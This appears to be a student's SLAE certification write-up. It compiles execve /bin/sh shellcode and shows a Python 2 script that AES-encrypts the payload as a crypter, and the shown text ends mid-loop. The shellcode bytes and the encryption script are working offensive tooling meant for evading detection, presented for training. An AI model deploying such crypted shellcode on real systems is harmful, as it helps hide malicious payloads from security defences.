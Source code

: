 # Note

This MD file has been created for the SecurityTube Linux Assembly Expert certification (https://www.pentesteracademy.com/course?id=3). Student ID: 1483.

# Get execve shellcode

Just to get sure, lets compile the execve-stack shellcode and extract it:

```
cervoise@slae:~$ bash compile.sh execve-stack
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
cervoise@slae:~$ ./execve-stack 
$ id
uid=1000(cervoise) gid=1000(cervoise) groups=1000(cervoise),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare)
$ exit
cervoise@slae:~$ bash get-shellcode.sh execve-stack
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

# Using AES in Python

All Python scripts I did in this course were in Python 3 (especially because of the end of life of Python 2). As this is the final exercice and Python 2 is living its last days, lets do this in Python 2.

First, we need to be able to load a shellcode in Python 2. A blogpost from 2015 gives this script using *ctype*: http://hacktracking.blogspot.com/2015/05/execute-shellcode-in-python.html.

I deciced to choose AES. The Simple-AES-Cipher (https://pypi.org/project/Simple-AES-Cipher) is a small Python library based on Python Crypto. Using the example code a crypter can be easily written. Shellcode must be a multiple of 16 bytes, NOP (0x90) are added as padding.

```python
import base64
import simple_aes_cipher

shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"

if len(shellcode) % 16 != 0:
   for i in range(16 - len(shellcode) % 16 - 1):
      shellcode += "\x90"
pass_phrase = "security-tube-slae1483"
secret_key = simple_aes_cipher.generate_secret_key(pass_phrase)
cipher = simple_aes_cipher.AESCipher(secret_key)

encrypt_text = cipher.encrypt(shellcode)
encrypted_shellcode = ""
for elmt in bytearray(base64.b64decode(encrypt_text)):
   encrypted_shellcode += '\\x' 
   encrypted_shellcode += '%02x' % elmt

print(encrypted_shellcode)

decrypt_text = cipher.decrypt(encrypt_text)
decrypted_shellcode = ""
for elmt in bytearray(decrypt_text):
   decrypted_shellcode += '\\x' 
```